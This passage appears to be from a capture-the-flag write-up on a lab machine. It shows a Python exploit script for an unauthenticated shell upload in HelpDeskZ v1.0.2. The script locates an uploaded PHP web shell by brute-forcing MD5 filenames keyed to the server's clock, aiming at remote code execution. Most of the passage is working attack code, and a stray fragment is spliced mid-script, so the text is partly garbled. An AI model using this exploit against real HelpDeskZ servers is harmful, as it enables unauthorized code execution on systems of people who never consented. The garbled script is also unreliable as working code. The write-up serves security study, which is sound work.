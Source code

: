 To fix our issue, we need to use the Python <b>requests</b> library to get the server's time from the Date field in an HTTP <b>response</b>. We can then convert the time format using <a href="http://strftime.org/" target="_blank">http://strftime.org/</a> as a guideline. We'll then replace the <b>currentTime</b> variable in the exploit with our converted time. Our final exploit looks like the script below.

```py
import hashlib
import time, calendar
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) <  3:
    print("Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0]))
    sys.exit(1)
e was uploaded, we can get RCE.

Steps to reproduce

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]


r = requests.head("http://10.10.10.121/support/")

# Gets the current time of the server to prevent timezone errors - DoctorEw
currentTime = int(calendar.timegm(time.strptime(r.headers['date'], "%a, %d %b %Y %H:%M:%S %Z")))

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print("found!")
        print(url)
        sys.exit(0)

print("Sorry, I did not find anything")
```

Checking the <b>HelpDeskZ</b> GitHub, we can make an educated guess that the directory of ticket uploads will be at <b>/uploads/tickets/</b>
